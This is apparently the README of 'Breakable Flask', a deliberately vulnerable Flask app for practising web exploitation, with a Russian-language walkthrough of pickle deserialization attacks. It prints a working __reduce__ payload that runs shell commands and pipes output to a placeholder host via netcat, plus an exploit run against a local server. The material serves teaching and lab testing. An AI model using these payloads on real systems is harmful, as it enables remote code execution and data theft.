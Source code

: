 # Breakable Flask

A simple vulnerable Flask application.

This can be used to test out and learn exploitation of common web application vulnerabilities. 

Originally written because I wanted a very simple, single page vulnerable app that I could quickly run up to perform exploitation checks against. 

A the moment, the following vulnerabilities are present:
* Python code injection
* Operating System command injection
* Python deserialisation of arbitrary data (pickle)
* XXE injection


New vulnerabilities may be added from time to time as I have need of them.

## Десериализация
Рассмотрим данную уязвимость на примере модуля pickle (python), но эта уязвимость характерна для всех языков использующих сериализаторы объектов, например Java.

### Описание
Пусть имеется два сервиса на python, IPC которых основано на [pickle](https://docs.python.org/3/library/pickle.html). Тогда в их коде будут строки
```python
pickle.dump()
pickle.load()
```
То есть сервис принимает сериализованный объект и десериализует его.
Опишем класс:
```python
class cls3(object):
        def __reduce__(self):
                import subprocess
                return (subprocess.Popen, (('/bin/sh','-c','ls'),))
```
В сериализованном виде экземпляр этого класса будет выглядеть как:
```
csubprocess
Popen
p0
((S’/bin/sh’
p1
S’-c’
p2
S’ls | nc MY_SERVER_IP PORT’
p3
tp4
tp5
Rp6
. 
```
Метод `__reduce__` вызывается при десериализации. То есть код, описанный в этом методе, будет выполнен при десериализации. В этом моменте и состоит уязвимость, т.к. это позволяет исполнять произвольный код, в т.ч. команды shell вслепую. Но с такими возможностями не составляет труда добавить обратную связь:
```python
 return (subprocess.Popen, (('/bin/sh','-c','ls| nc MY_SERVER_IP MY_PORT'),))
 ```
 ### Условия
* ОС: любая
* язык: python,java и др.
* компоненты: библиотеки
* настройки: разные

### Детектирование
Детектирование данной уязвимости возможно только путем отслеживания десериализуемых объектов (если включено логирование)

### Эксплуатация
Возможна как отправка запросов вручную, так и написание эксплойтов

### Инструменты
* Руки
* Python
* BurpSuite

### Ущерб
Выполнение произвольного кода и команд shell

### Защита
* Десериализация объектов только из доверенных источников
* Шифрование сериализованных объектов

### Пример использования
В рамках исследования был написан [эксплойт](https://github.com/primachenko/breakableflask/blob/master/exploit.py) для выполнения произвольных команд shell с получением результата выполнения
```
./exploit.py http://127.0.0.1:4000/cookies 127.0.0.1:3000 /bin/ls -la
total 32
drwxrwxr-x 4 creep creep 4096 Jul  5 22:21 ./
drwxrwxr-x 6 creep creep 4096 Jul  8 14:42 ../
-rwxrwxr-x 1 creep creep 3620 Jul  4 14:34 breakableflask.py*
-rw-rw-r-- 1 creep creep 1063 Jul  3 16:49 COPYRIGHT.txt
drwxrwxr-x 2 creep creep 4096 Jul  3 18:57 example/
-rwxrwxr-x 1 creep creep 1034 Jul  5 22:20 exploit.py*
drwxrwxr-x 8 creep creep 4096 Jul  5 22:23 .git/
-rw-rw-r-- 1 creep creep  566 Jul  3 16:49 README.md
```
